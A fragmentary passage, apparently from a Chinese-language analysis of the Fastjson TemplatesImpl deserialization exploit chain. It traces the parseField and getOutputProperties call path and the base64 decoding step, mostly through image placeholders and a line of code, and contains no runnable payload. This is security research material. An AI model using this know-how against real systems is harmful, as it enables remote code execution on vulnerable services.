  替换_字符为空
执行完成后回到 com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer# parseField来到这一步
进行反射调用执行TemplatesImpl的getOutputProperties()方法。
接着则来到了这里
transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
_indentNumber, _tfactory);到了这里其实也就不用跟了，和前面的JDK7u21后半段的链是一样的。
为什么要base64？
来到com.alibaba.fastjson.parser.DefaultJSONParser#parseObject
调用this.lexer.bytesValue();，调用IOUtils.decodeBase64进行base64解密